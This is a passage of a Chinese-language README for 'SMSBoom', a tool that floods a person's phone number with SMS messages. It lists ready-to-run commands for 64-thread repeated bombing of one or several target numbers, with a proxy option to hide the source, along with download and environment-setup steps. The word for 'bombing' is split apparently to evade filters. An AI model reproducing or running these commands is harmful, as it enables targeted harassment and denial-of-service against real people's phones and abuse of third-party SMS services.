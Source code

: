    启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60
   ```
   
   启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30
   ```
   
   启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
   ```

   启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

   ```shell
   smsboom_pyinstall.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
   ```


### 适用于大佬

#### 下载项目

- 方法一：使用Git:  

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```  

> 墙国加速
>  
> ```shell
> git clone https://github.do/https://github.com/AdminWhaleFall/SMSBoom.git
> ```  

- 方法二：点击下载[项目压缩包](https://github.com/AdminWhaleFall/SMSBoom/archive/refs/heads/master.zip)并解压.  

#### 配置环境  

**前提条件:** 请确保自己的电脑有 `python3.x` 的环境,推荐使用 `3.8` 及以上!  

方案一: 有 `Python3.8` 环境的可以使用 `pipenv` 工具.

1. 安装 pipenv 包管理工具.  
```shell
pip install pipenv
```

2. 为项目构建虚拟环境.  
```shell
pipenv install  # 仅使用轰//炸功能
pipenv install --dev # 使用 webui 调试接口功能.
```

3. 尝试运行 smsboom.py  
```shell
pipenv shell # 激活虚拟环境
python smsboom.py  # linux
```
